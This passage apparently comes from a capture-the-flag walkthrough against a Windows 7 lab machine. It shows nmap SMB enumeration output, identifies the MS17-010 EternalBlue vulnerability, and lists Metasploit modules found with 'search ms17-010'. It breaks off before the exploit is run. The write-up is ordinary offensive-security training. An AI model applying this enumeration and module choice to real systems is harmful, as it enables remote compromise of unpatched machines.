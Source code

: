 ```bash
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-05T17:36:48
|_  start_date: 2023-06-05T17:02:02
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 0243a7b722e5 (unknown)
| Names:
|   JON-PC<00>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   JON-PC<20>           Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   0243a7b722e50000000000000000000000
|   0000000000000000000000000000000000
|_  0000000000000000000000000000

```

This is an important info:

```bash
445/tcp open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
```

Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) [https://www.exploit-db.com/exploits/42315](https://www.exploit-db.com/exploits/42315) or we can find it with searchsploit (CLI).

> MS17-010

### Task 2 - Gain Access

#### 2.1 - Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

Start Metasploit

```bash
msfconsole -q
```

```bash
msf6 > search ms17-010
```

```bash
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```